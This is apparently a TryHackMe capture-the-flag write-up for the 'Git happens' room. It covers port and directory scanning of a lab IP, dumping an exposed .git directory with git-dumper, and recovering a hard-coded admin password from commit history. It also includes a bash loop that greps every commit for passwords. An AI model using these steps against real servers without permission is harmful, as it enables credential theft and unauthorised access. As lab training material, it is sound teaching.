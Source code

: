 # Room: Git happens

## General Info
- **Room link:** [Git happens](https://tryhackme.com/room/githappens)

## Description

Can you find the password to the application?

## Provided Files / Links
- [x] Target Machine IP (10.10.120.233)

## Enumeration / Recon

- Port Enumeration:
` nmap -sV 10.10.120.233 -p- -T5`

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
```


- Directory Enumeration


```
gobuster dir -u http://10.10.120.233 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt -t 100
```

```
/index.html           (Status: 200) [Size: 6890]
/.                    (Status: 301) [Size: 194] [--> http://10.10.120.233/./]
/.git                 (Status: 301) [Size: 194] [--> http://10.10.120.233/.git/]
/dashboard.html       (Status: 200) [Size: 3775]
```


## Website exploitation

The website http://10.10.120.233 starts with a login page.

Since I found a .git repository on the server, I am going to use git_dumper (https://github.com/arthaud/git-dumper) to dump the repository from the website on my machine.

`python3 git_dumper.py http://10.10.120.233/.git/ dumped-repo`

There is an interesting commit "Made the login page, boss!" (`git log`), when checking the content of the index.html file, I find login credentials: 

```
<script>
      function login() {
        let form = document.getElementById("login-form");
        console.log(form.elements);
        let username = form.elements["username"].value;
        let password = form.elements["password"].value;
        if (
          username === "admin" &&
          password === "Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!"
        ) {
          document.cookie = "login=1";
          window.location.href = "/dashboard.html";
        } else {
          document.getElementById("error").innerHTML =
            "INVALID USERNAME OR PASSWORD!";
        }
      }
    </script>
```

Bonus
---
 
I created a bash script to check for all "password" instances in the different files that are commited in the repository:

```
git rev-list --all | while read commit; do
  git ls-tree -r --name-only "$commit" | while read file; do
    git show "$commit:$file" 2>/dev/null | grep -Ei "password" && echo "Found in $file at $commit"
  done
done
```

```
<label class="lf--label" for="password">
          id="password"
          name="password"
          placeholder="Password"
          type="password"
        let password = form.elements["password"].value;
          password === "Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!"
            "INVALID USERNAME OR PASSWORD!";
Found in index.html at 395e087334d613d5e423cdf8f7be27196a360459
```
